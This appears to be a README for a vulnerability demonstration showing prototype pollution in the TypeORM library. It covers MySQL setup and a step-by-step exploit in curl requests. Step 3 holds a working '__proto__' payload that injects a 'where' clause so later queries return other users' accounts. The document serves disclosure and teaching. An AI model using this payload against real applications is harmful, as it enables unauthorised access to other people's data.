 # Prototype Pollution in TypeORM 

Prototype Pollution in TypeORM can lead to SQL Injection attacks in both MongoDB and MySQL types of databases, as well as Denial of Service or escalate to other types of attacks for a vulnerable Node.js web application.

## Requirements

You'll need a MySQL server running. Try this:

```sh
# use mysql:5 as that still supports the good old native password mechanism to login
# and keep things simple for the demo
docker run -p3306:3306 --rm --name mysqld -e MYSQL_ROOT_PASSWORD=root mysql:5
```

Create the dummy `acme` database:
```sh
create database acme;
```

For the MySQL client (to browse database records and such):
```sh
docker exec -it mysqld mysql -uroot -p
```

## Setup

The root file `./typeorm-db.js` gets called when the app starts and seeds the database with 2 sample users.

## Exploit scenario

### Step 1 - Normal request

You can create new users via POST /users

```sh
curl --request POST \
  --url http://localhost:3001/users \
  --header 'content-type: application/json' \
  --data '{
	"name": "a",
	"address": "vvv",
	"role": "user"
}'
```

### Step 2 - A request to get your own profile

A request to get your own profile always results in your own user (right now hard-coded with id:1)

```sh
curl --request GET \
  --url http://localhost:3001/users \
  --header 'content-type: application/json'
```

### Step 3 - Poison the Object's prototype

We now send a request that creates a user, but poison the prototype chain through an insecure
merge of objects that happens within TypeORM's code, and results in `Object` having a `where` object property.

```sh
curl --request POST \
  --url http://localhost:3001/users \
  --header 'content-type: application/json' \
  --data '{
	"name": "a",
	"address": {
		"__proto__": {
			"where": {
				"id": "2",
				"where": null
			}
		}
	}
}'
```

### Step 4 - Fetch your profile again

Now go back to Step 1 and fetch the user profile again.
Now you get profile 2 instead of the hard-code profile id 1. Why does it happen?
Because with TypeORM's `where` clause takes precendence over the `id` specifier and we're now able to enumerate and get every account id we want.